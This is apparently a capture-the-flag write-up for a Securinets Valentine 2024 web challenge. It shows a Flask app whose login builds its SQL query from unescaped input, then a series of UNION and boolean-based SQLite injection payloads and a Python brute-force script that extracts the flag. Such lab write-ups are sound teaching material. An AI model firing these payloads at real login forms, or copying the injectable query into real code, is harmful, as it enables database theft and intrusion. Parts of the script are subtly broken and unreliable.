 <h1>  7Billions and you have 0 chance  </h1>

<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/image3.PNG>

Enumerating through the website i found ```robots.txt```
And got this code:

```py
from flask import request, send_from_directory, render_template, send_file, Flask
import sqlite3

app = Flask(__name__)

app.static_folder="public"


def getUser(username, pwd):
    connection_obj = sqlite3.connect("database.db")
    cursor_obj = connection_obj.cursor()
    cursor_obj.execute(
        f"SELECT * FROM users WHERE username = '{username}' AND password = '{pwd}'"
    )

    result = cursor_obj.fetchone()
    print(result)
    if result:
        return True
    else:
        return False


@app.route("/", methods=["GET"])
def home():
    return render_template("index.html")


@app.route("/robots.txt", methods=["GET"])
def static_from_root():
    return send_from_directory(app.static_folder, request.path[1:])


@app.route("/source", methods=["GET"])
def get_source():
    return send_file(__file__)


@app.route("/admin", methods=["POST"])
def admin():
    username = request.form.get("username")
    password = request.form.get("password")

    if username and password and getUser(username, password):
        return render_template("auth.html")
    else:
        return render_template("404.html"), 404


@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html"), 404


app.run(host="0.0.0.0", port=8000)
```

It was obvious that it was SQLite injection, but to be sure, let's detect the injection point:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture2.PNG>
after we put ```'``` we got this Error:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture3.PNG>



Next, we need to find the number of columns using this payload:
```admin'UNION+SELECT+NULL,NULL,NULL--```
I found that there were only 3 columns through enumeration.
and when I got that the database has 3 columns, a new response got to us:```which is the valid one :)```
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture4.PNG>


<b>Here is the final take "there are 7 billions people and I have 0 chance,read it from the end"</b>

From that, we knew that it was boolean-based sqlite injection, so let's get to work:


first we need to find the name of the table using this query:
```username=admin'UNION+SELECT+tbl_name,NULL,NULL+FROM+sqlite_master+WHERE+tbl_name+NOT+LIKE+'sqlite_%'+AND+tbl_name+LIKE+'fla%'+--&password=asd```

throught enumerating the ```LIKE``` value we found that the table name is ```flag```.

after that we need to find the column name!
i honestly guessed that the coloumn name was ```flag``` i think thats has to do.
i used this query to guess it:
```admin'UNION+SELECT+flag,NULL,NULL+FROM+flag--```
and got a valid response:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture5.PNG>


finally we have to exract the flag using this query:
```admin'UNION+SELECT+flag,NULL,NULL+FROM+flag+WHERE+flag+LIKE+'securinets{%'--```
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture6.PNG>

we have to keep enumerating the ```LIKE``` value until we get our full flag.
so i wrote this script to do the work

```py
from requests import *
from string import *
url = "http://51.12.211.165:8200/admin"
ans=""

pr="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!_{}"
for i in pr:
    data = {
    "username": "admin' UNION SELECT 0x660x6c0x610x67,NULL,NULL FROM flag WHERE flag LIKE 'securinets{luCK_"+(ans+i)+"%'--",
    "password": "asd"}

    p=post(url,data=data)
    if p.status_code==200:
        ans+=i
        print(ans)
```

running the script we got the flag: ```securinets{Luck_15_n00b5_b3l13f5}```


